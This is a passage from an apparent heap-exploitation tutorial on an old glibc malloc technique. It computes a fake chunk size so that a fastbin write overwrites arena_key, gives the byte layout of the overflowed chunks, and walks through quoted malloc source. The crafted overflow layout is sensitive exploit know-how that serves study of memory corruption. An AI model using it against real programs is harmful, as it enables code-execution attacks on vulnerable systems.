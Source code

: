 In the example provided by Phantasmal Phantasmagoria, arena_key is 1156 bytes away from fastbins[0], so I can use still this value as a valid example: this means that fastbin_index must return 1156/sizeof(mfastbinptr)=289. Inverting the fastbin_index macro is possible:  

`(289 + 2) << 3 = 2328 = 0x918`

The PREV_INUSE bit needs to be set for ptr2, so its size must be set to 0x919. In the end, fb will point exactly at arena_key, that will be overwritten with the value of ptr2. The exploit layout evolves into:  
```
0x41 0x41 0x41 0x41            ptr1 prev_size
0x09 0x00 0x00 0x00            ptr1 size + PREV_INUSE bit
0x41 0x41 0x41 0x41            ptr2 (according to free(ptr1)) prev_size
0x10 0x00 0x00 0x00            ptr2 (according to free(ptr1)) size
0x41 0x41 0x41 0x41            -\
[...]                           | still part of ptr1's space (248 * 0x41's)
0x41 0x41 0x41 0x41            -/
0x41 0x41 0x41 0x41            ptr2 prev_size
0x19 0x09 0x00 0x00            ptr2 size + PREV_INUSE bit
```
So, the second task is complete. The reason why it is important to overwrite arena_key gets evident when the malloc is called. A little analysis of first line of code of a malloc is mandatory here:  
``` c
 Void_t*
public_mALLOc(size_t bytes)
{
  mstate ar_ptr;
  Void_t *victim;

  [...]

  arena_get(ar_ptr, bytes);
  if(!ar_ptr)
    return 0;
  victim = _int_malloc(ar_ptr, bytes);
  [...]
  return victim;
}
```
First thing the malloc tries to do is to retrieve the arena and to store the address in ar_ptr by using the arena_get macro. As the arena_key is set to a value different from zero, the macro won’t try to create a new arena. As ar_ptr is the current arena and points directly to the ptr2 chunk space, the max_fast field corresponds to the ptr2‘s size field. The pointer is then passed to the _int_malloc function, in which the following happens:  
``` c
 Void_t*
_int_malloc(mstate av, size_t bytes)
{
  INTERNAL_SIZE_T nb;               /* normalized request size */
  unsigned int    idx;              /* associated bin index */
  mbinptr         bin;              /* associated bin */
  mfastbinptr*    fb;               /* associated fastbin */

  mchunkptr       victim;           /* inspected/selected chunk */

  [...]

  /*
    Convert request size to internal form by adding SIZE_SZ bytes
    overhead plus possibly more to obtain necessary alignment and/or
    to obtain a size of at least MINSIZE, the smallest allocatable
    size. Also, checked_request2size traps (returning 0) request sizes
    that are so large that they wrap around zero when padded and
    aligned.
  */
```